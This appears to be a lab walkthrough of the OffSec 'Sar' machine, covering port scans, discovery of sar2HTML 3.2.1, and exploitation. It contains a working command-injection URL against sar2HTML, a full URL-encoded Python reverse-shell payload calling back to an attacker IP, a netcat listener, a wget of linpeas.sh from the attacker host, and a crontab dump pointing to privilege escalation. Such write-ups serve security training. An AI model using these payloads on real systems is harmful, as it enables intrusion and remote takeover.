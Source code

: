 ```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.223.35 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:39 EDT
Initiating Parallel DNS resolution of 1 host. at 00:39
Completed Parallel DNS resolution of 1 host. at 00:39, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:39
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:39, 0.18s elapsed (2 total ports)
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:39:56 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
> rustscan -u 5000 -p 22,80 -a 192.168.223.35 -- -Pn -sCV
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:41 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 00:41
Completed Parallel DNS resolution of 1 host. at 00:41, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:41
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:41, 0.18s elapsed (2 total ports)
Initiating Service scan at 00:41
Scanning 2 services on 192.168.223.35
Completed Service scan at 00:41, 6.37s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.223.35.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 5.23s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:41:07 EDT for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

TCP 80/HTTP
```
http://192.168.223.35/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/31152133-0eb4-4522-bc9e-f5956a2aff7d)

```
http://192.168.223.35/robots.txt
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e9abd33-9946-40ed-ab55-5f65f2817b7f)

```
http://192.168.223.35/sar2HTML/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/438bef78-7664-45e9-a7ce-b4bca7043cae)

```
> searchsploit sar2html 3.2.1
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e51793a-dee2-4983-b150-c920c143391e)

```
> searchsploit -m php/webapps/49344.py
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/c58c4b88-64cb-4113-b971-b841f661c5e8)
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/52e5d38e-d619-41e9-ad59-93883841f451)

Manual Exploitation
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/cb1df527-fa04-407d-b858-a46b74333ee8)
```
http://192.168.223.35/sar2HTML/index.php?plot=;whoami
```

Reverse Shell
```
http://192.168.223.35/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.231%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e84d691-8330-48c7-a59f-c9ce5965aaaa)

```
> rlwrap nc -nlvvp 9090
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3796063f-129a-4c41-bbdf-c1eff80cf73b)

Privilege Escalation
LinPEAS
```
www-data@sar:/tmp$ wget http://192.168.45.231/linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/2af4b81a-f610-4e8e-9062-fedde44ca54d)

```
www-data@sar:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/04d98692-aaaa-4733-b86e-5ebb5e19cae4)

List Cronjobs
```
www-data@sar:/var/www/html/sar2HTML$ less /etc/crontab
```
```
less /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```
